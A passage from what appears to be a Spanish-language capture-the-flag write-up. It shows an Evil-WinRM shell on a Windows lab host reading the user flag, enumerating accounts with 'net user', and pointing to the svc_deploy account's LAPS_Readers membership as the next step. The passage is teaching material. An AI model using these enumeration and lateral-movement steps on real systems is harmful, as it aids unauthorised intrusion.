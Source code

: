 ## User.txt

```bash
*Evil-WinRM* PS C:\Users> Get-ChildItem -Path C:\ -Recurse -Filter "user.txt" -ErrorAction SilentlyContinue
Enter PEM pass phrase:


    Directory: C:\Users\legacyy\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        7/26/2023   7:01 PM             34 user.txt
```

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> type C:\Users\legacyy\Desktop\user.txt
9a2077a3a7ce5b1fec186ad86b228077
*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

## Shell as svc_deploy

- Aquí vemos varios usuarios.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user
Enter PEM pass phrase:

User accounts for \\

-------------------------------------------------------------------------------
Administrator            babywyrm                 Guest
krbtgt                   legacyy                  payl0ad
sinfulz                  svc_deploy               thecybergeek
TRX
The command completed with one or more errors.

*Evil-WinRM* PS C:\Users\legacyy\Documents> 
```

- Si examinamos a que grupos pertenecen cada usuario vemos que `svc_deploy` forma parte de `LAPS_Readers` ademas forma parte del grupo `Remote Management Users` así que podemos conectarnos con `evil-winrm`.

```bash
*Evil-WinRM* PS C:\Users\legacyy\Documents> net user svc_deploy
Enter PEM pass phrase:
User name                    svc_deploy
Full Name                    svc_deploy
Comment
User's comment
Country/region code          000 (System Default)
Account active               Yes
Account expires              Never

Password last set            10/25/2021 12:12:37 PM
Password expires             Never
Password changeable          10/26/2021 12:12:37 PM
Password required            Yes
User may change password     Yes

Workstations allowed         All
Logon script
User profile
```